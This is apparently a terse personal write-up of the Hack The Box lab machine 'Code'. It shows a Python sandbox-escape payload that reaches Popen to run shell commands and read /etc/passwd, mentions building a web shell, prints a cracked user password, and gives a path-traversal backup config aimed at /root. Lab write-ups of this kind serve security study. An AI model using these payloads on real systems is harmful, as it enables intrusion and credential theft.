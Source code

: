 ## Code htb machine (easy)

code also vulneable to ssti ```val = f"{7*7}"```


found this initial payload

```bash
p = ().__class__.__bases__[0].__subclasses__()[317]

payload = "cat /etc/passwd"
proc = p(["sh", "-c", payload], stdout=-1, stderr=-1, stdin=-1)
out, _ = proc.communicate()

#print(out)

if out:
    print(out.decode())
```
With this payload, i wreated a web shell and executed it i got the user flag

found database file, and cracked the user martin

nafeelswordsmaster


```json
{
  "destination": "/tmp/backups",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/home/....//....//root"
  ]
}
```